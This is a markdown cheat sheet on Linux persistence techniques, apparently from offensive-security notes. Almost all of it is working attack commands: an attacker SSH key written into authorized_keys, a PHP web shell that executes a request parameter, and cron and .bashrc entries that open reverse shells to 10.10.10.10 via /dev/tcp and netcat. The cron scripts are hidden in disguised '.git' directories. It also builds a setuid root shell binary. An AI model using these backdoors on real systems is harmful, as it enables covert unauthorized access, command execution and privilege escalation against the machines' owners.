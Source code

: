 # Linux Persistence
## Linux Persistance 
### SSH Key
- Can be root or normal user.
````
echo "SSH_PUB_KEY_HERE" > ~/.ssh/authorized_keys
````
## PHP Backdoors
- Most likely need to be root, depends on if apache2 is already running, as well as web root permissions for your current user.
- On victim machine
````
sudo systemctl start apache2
cd /var/www/html 
nano ANKWTxiy11ugLHdaxJ.php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
````
### Usage
````
http://target.com/ANKWTxiy11ugLHdaxJ.php?cmd=cat+/etc/passwd
````
## Cron Job Backdoor
- On target if root
````
mkdir /usr/lib/.git 
cd /usr/lib/.git
echo '#!/bin/bash 
bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' > .git 
chmod +x .git 
````
- On target it not root
````
mkdir /var/tmp/.git 
cd /var/tmp/.git
echo '#!/bin/bash 
bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' > .git 
chmod +x .git
````
- Create the cron Job
````
crontab -e
* * * * * /bin/bash -c /usr/lib/.git/.git 
* * * * * /bin/bash -c /var/tmp/.git/.git
````
## Bashrc Backdoor
- Can be used as the root or non root user
````
cd ~
echo 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' >> ~/.bashrc
tail ~/.bashrc
````

## SUID Binary
- Need to be root, great backdoor if for example you found a priv-esc as a normal user and want an ability to priv-esc up in the future
- Depends on having `gcc` on the target
````
which gcc 
echo 'int main() { setresuid(0,0,0); system("/bin/sh"); }' > boot.c
gcc -o boot boot.c
rm boot.c
chmod u+s boot
````
- To trigger 
````
./boot
````







